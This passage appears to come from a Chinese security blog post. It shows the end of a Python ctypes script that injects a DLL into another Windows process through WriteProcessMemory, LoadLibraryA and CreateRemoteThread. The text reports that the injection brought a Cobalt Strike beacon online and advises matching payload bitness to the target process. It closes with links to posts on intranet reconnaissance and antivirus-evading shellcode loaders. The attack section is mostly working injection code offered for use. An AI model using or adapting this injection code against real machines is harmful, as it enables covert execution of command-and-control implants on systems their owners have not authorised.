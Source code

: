 ```
        ctypes.windll.kernel32.WriteProcessMemory(h_process, arg_address, buf, len(dll_path))

        ctypes.windll.kernel32.GetModuleHandleW.argtypes = [c_wchar_p]
        ctypes.windll.kernel32.GetModuleHandleW.restype = c_void_p
        handle = ctypes.windll.kernel32.GetModuleHandleW("kernel32")
        ctypes.windll.kernel32.GetProcAddress.argtypes = [c_void_p, c_char_p]
        ctypes.windll.kernel32.GetProcAddress.restype = c_void_p
        LLA = ctypes.windll.kernel32.GetProcAddress(handle, b'LoadLibraryA')
        print("LoadLibraryA:{}".format(LLA))

        LPTHREAD_START_ROUTINE = ctypes.WINFUNCTYPE(wintypes.DWORD, wintypes.LPVOID)
        start = LPTHREAD_START_ROUTINE(LLA)
        handle = ctypes.windll.kernel32.CreateRemoteThread(h_process, None, 0, start, arg_address, 0, 0)
        if handle:
            ctypes.windll.kernel32.WaitForSingleObject(handle, -1)
            ctypes.windll.kernel32.CloseHandle(handle)
        else:
            print("create handle errer")
            sys.exit()
        ctypes.windll.kernel32.CloseHandle(h_process)
    else:
        print("open process error")
        sys.exit()

if __name__ == '__main__':
    inject(sys.argv[1],sys.argv[2])
```

![](https://mmbiz.qpic.cn/mmbiz_png/zbTIZGJWWSNm0LR8A6BdSLiaobrMYza7EbrIFyrojVkgI22aekDb95QHzF4iaxicHE2Pn5TGyjib3NrqUlu3ycbIRQ/640?wx_fmt=png)

成功上线 cs  

![](https://mmbiz.qpic.cn/mmbiz_png/zbTIZGJWWSNm0LR8A6BdSLiaobrMYza7ERkJdhN1Tia4RasgVCuwdpztg2cqLacCSMdhMicSZyjbDKPefEnrbFMBA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/zbTIZGJWWSNm0LR8A6BdSLiaobrMYza7EohgK2QEpe70hKSFdy54gfiata2V8XFl8Us9rvFvjb1TJjIND8wNeic8g/640?wx_fmt=png)

注意

注意 DLL 文件位数要对应如果 DLL 被注入的进程是 64 位，那么应该使用 64 位有效负载，32 位程序应注入 32 位 dll 文件。  

****【往期推荐】****  

[【内网渗透】内网信息收集命令汇总](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485796&idx=1&sn=8e78cb0c7779307b1ae4bd1aac47c1f1&chksm=ea37f63edd407f2838e730cd958be213f995b7020ce1c5f96109216d52fa4c86780f3f34c194&scene=21#wechat_redirect)  

[【内网渗透】域内信息收集命令汇总](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485855&idx=1&sn=3730e1a1e851b299537db7f49050d483&chksm=ea37f6c5dd407fd353d848cbc5da09beee11bc41fb3482cc01d22cbc0bec7032a5e493a6bed7&scene=21#wechat_redirect)

[【超详细 | Python】CS 免杀 - Shellcode Loader 原理 (python)](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247486582&idx=1&sn=572fbe4a921366c009365c4a37f52836&chksm=ea37f32cdd407a3aea2d4c100fdc0a9941b78b3c5d6f46ba6f71e946f2c82b5118bf1829d2dc&scene=21#wechat_redirect)
